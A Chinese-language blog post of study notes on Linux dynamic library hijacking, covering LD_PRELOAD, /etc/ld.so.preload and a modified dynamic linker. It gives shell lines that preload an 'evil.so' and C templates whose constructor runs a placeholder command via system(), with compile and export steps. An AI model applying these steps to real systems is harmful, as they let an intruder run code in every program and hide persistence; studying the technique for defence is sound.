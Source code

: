 ```yaml
---
layout: post
title: 动态链接库劫持
date: 2022-9-22
categories: blog
tags: [笔记,拓展知识]
description: 动态链接库

---
```


### 动态链接库劫持

***

#### 程序链接方式

静态链接：程序运行前将各个目标模块以及库函数链接
装入链接：在程序编译装入内存时，一边编译，一边链接
运行链接：在程序执行时，需要时才进行链接

#### 动态链接库劫持

LD_PRELOAD环境变量和/etc/ld.so.preload配置文件中指定的动态链接库比LD_LIBRARY_PATH环境变量所定义的链接库查找路径的文件优先级要高，即使用户不使用，仍会加载。  

#### 利用方式  

1.`通过LD_PRELOAD环境变量加载`  
2.`通过/etc/ld.so.preload配置文件加载`  
3.`通过修改动态链接器实现恶意代码`

##### 通过LD_PRELOAD环境变量加载

```shell
LD_PRELOAD = /evil.so #设置恶意动态链接库
export  LD_PRELOAD  #导出生效
```

##### 通过/etc/ld.so.preload配置文件加载

```shell
echo "/evil.so" > /etc/ld.so.preload
```

##### 通过修改动态链接器实现

```shell
#1.修改动态链接器中配置文件路径/etc/ld.so.preload为自定义的路径
#2.在该路径中写入要预加载的恶意动态链接库的绝对路径
```

#### 利用

##### 查看库函数 

```shell
readelf -Ws /usr/bin/ls
```

##### 选择函数重写

```c
//劫持某一函数
#include<stdlib.h>  

#include<stdio.h>  

#include<string.h>

void payload(){
     //exp;
}
int xxx(){
	if(getenv("LD_PRELOAD") == NULL){
		return 0;
	}
	unsetenv("LD_PRELOAD");
	payload();
}

//所有命令全量劫持
#include<stdlib.h>

#include<stdio.h>

#include<string.h>

__attribute__((__constructor__)) void preload (){
    unsetenv("LD_PRELOAD");
    system("id");//exp
}
```

##### 编译加载

```shell
gcc -shared -fPIC test.c -o test.so
export LD_PRELOAD=$PWD/test.so
```

